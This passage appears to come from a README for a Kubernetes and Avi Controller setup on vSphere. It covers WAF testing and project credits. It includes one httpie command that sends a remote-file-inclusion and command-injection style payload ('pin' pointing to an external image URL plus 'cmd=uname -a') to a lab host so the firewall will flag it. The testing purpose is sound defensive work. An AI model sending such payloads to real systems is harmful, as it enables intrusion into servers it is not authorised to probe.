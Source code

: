   - A file in the client, as well as on the k8s master called waftest.txt is copied. Append this to your httpie command and check the WAF on Avi Controller
    ```shell
    http --verify=no "https://secure-ingress.cluster1.avi.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a"
    ```
  - Triggers WAF results
    ![Alt text](img/waf-results.png?raw=true "WAF Results")

- Credits
  Nicolas Bayle who started this project and myself fine tuned the code so it can be used in any vSphere env.
